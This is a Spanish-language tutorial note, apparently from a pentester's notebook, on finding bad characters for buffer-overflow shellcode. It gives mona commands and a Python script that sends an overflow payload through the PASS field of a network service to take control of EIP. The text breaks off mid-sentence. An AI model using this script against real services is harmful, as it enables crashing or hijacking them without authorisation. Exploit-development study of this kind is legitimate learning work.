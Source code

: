 #BufferOverflow #Bytearray #Badchars #ShellCode 

A la hora de generar nuestro *ShellCode* para explotar el bufferoverflow es posible que algunos caracteres no sean interpretados correctamente estos son conocidos como *Badchars*.
Ahora en nuestra pila donde inyectamos el shellcode haremos las pruebas para identificar estos caracteres no deseados.


Con la herramienta de `mona` en Inmunity seleccionaremos nuestra ruta de trabajo `!mona config -set workingfolder C:\Users\<Usuario>\Desktop\Analysis`
Ahora generaremos un *bytearray* `!mona bytearray -cpb '\x00'` excluyendo el nullbyte
Este *bytearray* es el que 

00.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	after_eip = b"C"*200 #Cadena para ver donde se almacenan los demas valores en la pila despues del EIP
	
	payload = before_eip + eip + after_eip
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
		
